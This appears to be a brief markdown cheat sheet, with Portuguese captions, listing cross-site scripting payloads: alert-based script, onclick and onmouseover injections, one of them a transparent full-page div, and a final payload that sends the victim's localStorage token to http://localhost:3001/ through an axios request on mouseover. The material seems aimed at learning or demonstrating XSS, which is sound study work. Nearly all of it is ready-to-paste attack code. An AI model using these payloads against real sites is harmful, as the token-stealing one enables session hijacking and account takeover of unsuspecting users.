 # Img

`<img src="">`

# Button

`<button onclick="Alert Hackeado">Click me</button>`

# On mouse over

`<div onmouseover="alert('injetado!')" style="width:100vw; height: 100vh; color:transparent"> </div>`

# Script

`<script>alert('123')</script>`

# Request HTTP

`<div onmouseover="axios.post('http://localhost:3001/', {}, {headers:{Authorization:localStorage['token']} }).then((result)=>{})" style="width:100vw; height: 100vh; color:transparent"></div>`
